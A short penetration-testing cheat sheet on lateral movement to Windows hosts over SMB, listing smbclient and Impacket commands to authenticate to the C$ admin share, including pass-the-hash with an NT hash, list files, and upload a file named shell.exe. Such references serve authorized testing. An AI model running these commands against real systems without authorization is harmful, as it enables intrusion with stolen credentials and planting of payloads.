 # Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

`$ smbclient -U "[<domain_name>/]<username>%<password>" //<IP>/c$`

- Pass the Hash

`$ smbclient -U "[<domain_name>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$`

### 1.1 - Impacket

`$ smbclient.py [<domain>/]<username>:<password>@<IP>`

- Pass the Hash

`$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>`

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

`smb: \> ls`

### 2.2 - Impacket

```
# use c$

# ls
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

`smb: \> put /path/to/local/shell.exe`

### 3.2 - Impacket

```
# put /path/to/local/shell.exe
```